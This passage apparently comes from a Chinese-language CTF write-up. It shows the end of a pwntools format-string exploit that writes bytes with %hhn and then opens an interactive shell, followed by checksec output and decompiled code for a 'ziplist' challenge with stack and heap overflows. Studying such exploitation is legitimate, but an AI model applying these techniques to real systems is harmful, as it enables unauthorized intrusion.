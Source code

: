 ```python
     
or i in range(3):
    val = (sh_hex >> i*8) & 0xff
    payload += f"%{next_bytes(val, 8)}c%{idx}$hhn".encode()
    idx += 1
    
payload = payload.ljust(padding, b'\xee')
for i in range(3):
    payload += p32(target + i)
for i in range(3):
    payload += p32(sh_target + i)
    
print(payload)
r.sendlineafter("Family Name: ", payload)
r.interactive()
```

## ziplist

```
// file
ziplist: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 2.6.32, BuildID[sha1]=95e6023290054b1419cc679a4d29e39ac119f7f0, not stripped

// checksec
[*] '/tmp/tmp/challenges/ziplist/build/ziplist'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

可以列出 zip 內檔案有哪些，關於 zip 的結構可以餐靠 [zip wiki](https://en.wikipedia.org/wiki/ZIP_(file_format))。

trace 後會發現有兩個地方有漏洞:

- `zip_check_header()` 中，寫入 comment 時會發現 main function 中給 comment 的 array len 只有 72，如果 comment 長度超過 72 就會有 overflow 發生，不過因為有 canary 的關係，沒辦法直接使用:

```c
...
	  fseek(a1_FILE_zip, -offset, 2);
      fread(a3_zipcomment, 1uLL, offset, a1_FILE_zip);
      a3_zipcomment[offset] = 0;
...
```

- `zip_get_entries()` 中，對於 filename 的長度 hardcode 0x40，因此當 filename > 0x40，就會有 heap overflow 的情況發生:

```c
 *a3_output = malloc(8LL * *(a2_EOCD + 10));   // 10: Total number of central directory records
  for ( i = 0; *(a2_EOCD + 10) > i; ++i )       // create space
  {
    v3_chunk_list = (*a3_output + 8 * i);       // [chunk1_ptr, chunk2_ptr, ..., chunkn_ptr]
    *v3_chunk_list = malloc(0x2EuLL);
    v4_chunk_address = *(*a3_output + i);
    *(v4_chunk_address + 0x2E) = malloc(0x40uLL);// <---------here
  }
  for ( j = 0; *(a2_EOCD + 10) > j; ++j )
  {
    fread(*(*a3_output + j), 0x2EuLL, 1uLL, a1_FILE_zip);// read a Central directory file header
    if ( **(*a3_output + j) != '\x02\x01KP' )   // Central directory file header
      return 1LL;
```